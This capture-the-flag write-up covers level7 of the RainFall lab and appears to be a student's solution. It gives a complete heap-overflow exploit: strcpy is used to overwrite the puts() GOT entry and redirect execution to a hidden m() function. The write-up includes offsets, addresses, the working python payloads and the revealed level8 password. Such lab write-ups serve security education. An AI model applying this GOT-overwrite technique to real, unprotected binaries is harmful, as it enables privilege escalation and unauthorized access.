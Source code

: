 # Level7

We can find an executable who segfault without parameter and print "~~" with 2 params.  
```
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 bla
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 bla bla
~~
level7@RainFall:~$
```
After analyze it with gdb we can see a `main()` and a non-called `m()` function.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level7/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level7/source.c) for more details.  
Lets talk about the `main()`.   
<br/>

There is 2 malloc(8) for each argv[1] && argv[2].  
It uses `strcpy()` to copy the strings in av[0] and av[1] to their respective allocated memory.
`strcpy()` is unprotected and will copy until it reaches the end of the string.  
We can see that the program retrieve the flag with `fgets()` and saves it in a global variable c but does nothing with it.  
During the first call to `strcpy()`, we can overwrite the address used as destination for the second `strcpy()` (b[1]) => we want to overwrite function `puts()` GOT address to call function `m()` instead.  
1. Let's get the offset necessary to overwrite b[1] by using ltrace to print libc calls.  
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff784, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                       = 0x0804a008
malloc(8)                                                       = 0x0804a018
malloc(8)                                                       = 0x0804a028
malloc(8)                                                       = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)       = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level7@RainFall:~$
```
Thanks to the pattern generator we found that the offset start at 20.  
2. We need to find the `puts()` GOT entry (the pointer to overwrite) :
```
level7@RainFall:~$ gdb level7
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
(gdb) disass 0x08048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928         <----- Found it !!
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb)
```
3. We can test an overwrite on b[1] with ltrace to be sure
```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') bla
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                       = 0x0804a008
malloc(8)                                                       = 0x0804a018
malloc(8)                                                       = 0x0804a028
malloc(8)                                                       = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")           = 0x0804a018
strcpy(0x08049928, "bla")                                       = 0x08049928
fopen("/home/user/level8/.pass", "r")                           = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level7@RainFall:~$
```
Now we know that, our payload should look like :
```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```
*`m()` address is easily foundable in gdb (info function m) : 0x080484f4*
4. Now we can overwrite b[1] to call `m()`
```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1606130489
level7@RainFall:~$ su level8
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```
Level7 passed!

